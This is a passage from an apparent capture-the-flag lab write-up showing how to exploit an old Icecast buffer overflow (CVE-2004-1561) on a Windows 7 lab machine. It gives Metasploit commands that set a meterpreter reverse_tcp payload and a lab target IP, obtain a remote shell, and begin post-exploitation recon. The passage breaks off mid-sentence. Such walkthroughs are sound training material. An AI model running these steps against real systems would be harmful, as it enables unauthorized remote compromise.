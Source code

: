It's a Windows 7 Professional 6.1 version. The computer name is DARK.

Let's search for ICECAST exploit ( if exist ) on https://www.cvedetails.com/ and after typing name of the exploit on the search box, there's a **CVE-2004-1561** for this exploit,

![image](https://user-images.githubusercontent.com/67465230/173223359-bfef088e-004e-4e95-b0cc-53abb0c856d6.png)

```
CVE-2004-1561: Buffer overflow in Icecast 2.0.1 and earlier allows remote attackers to execute arbitrary code via an HTTP request with a large number of headers.
```

Now, that we've found this exploit, we'll fire-up metasploit-framework using `msfconsole -q` and search for this exploit,

```bash
search icecast
```

![image](https://user-images.githubusercontent.com/67465230/173223370-1e98e98e-e6c4-4f7e-9606-7bb1fe9bc12c.png)

There we got the exploit path. We'll be using this module.

```bash
use exploit/windows/http/icecast_header
```

![image](https://user-images.githubusercontent.com/67465230/173223375-f7502d8a-5b6e-42f6-87be-4ba5b2b138bc.png)

and we'll get default payload set as **windows/meterpreter/reverse_tcp**.

Let's set all the require options:
 - **set lhost tun0**
 - **set rhosts 10.10.129.112**
 
![image](https://user-images.githubusercontent.com/67465230/173223376-07464ee2-7266-41f6-960b-c9a0ad2f3ce0.png)

Now, let's run this exploit using `exploit` command,

![image](https://user-images.githubusercontent.com/67465230/173223378-083390c6-8eca-4443-80a2-1de64b19051e.png)

and as soon after running this exploit, we'll get a meterpreter shell.

Let's see what user we're using `getuid` command,

![image](https://user-images.githubusercontent.com/67465230/173223381-2d603ded-c562-4783-b6b9-aea57e93ab68.png)

We're DARK user.

Let's get some information about system using `sysinfo` command,

![image](https://user-images.githubusercontent.com/67465230/173223382-a747b95a-6317-4d5d-8e94-674bc72fec36.png)

It's a x64 bit Win7 pc 6.1 build 7601, SP1.

Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command,
